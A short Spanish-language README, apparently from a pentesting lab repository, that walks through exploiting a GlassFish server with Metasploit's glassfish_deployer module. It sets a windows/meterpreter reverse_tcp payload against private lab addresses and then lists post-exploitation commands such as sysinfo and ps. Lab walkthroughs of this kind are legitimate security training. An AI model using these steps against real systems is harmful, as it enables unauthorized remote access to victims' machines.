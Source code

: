 # Glassfish

## Pasos a seguir
Buscamos los puertos pertenecientes al servicio

<img src=exploits_img/glassfish1.png alt="Buscar puertos glassfish" width="500" height="650">

Comprobamos que el servcio está activo en el puerto indicado

<img src=exploits_img/glassfish2.png alt="Servicio activo glassfish" width="500" height="300">

Abrimos primero 'msfconsole'

Seleccionamos el módulo con 'use exploit/mult/http/glassfish_deployer'

Buscamos las opciones con 'show options'

Establecemos la dirección IP de la máquina víctima (RHOST), el tipo de payload que deseas utilizar (PAYLOAD)
y tu propia dirección IP (LHOST) para la conexión inversa:

set RHOST 192.168.1.144

set PAYLOAD windows/meterpreter/reverse_tcp

set LHOST 192.168.1.143

Ejecutamos el exploit con: 'exploit'

<img src=exploits_img/glassfish3.png alt="Exploit glassfish" width="500" height="250">

## Una vez dentro podemos ejecutar

-sysinfo: Para obtener información sobre el sistema operativo de la máquina víctima.

-getuid: Para obtener el identificador del usuario actual en la máquina víctima.

-ipconfig: Para obtener información sobre la configuración de red de la máquina víctima(depende del sistema operativo de la víctima).

-ps: Para listar los procesos en ejecución en la máquina víctima.
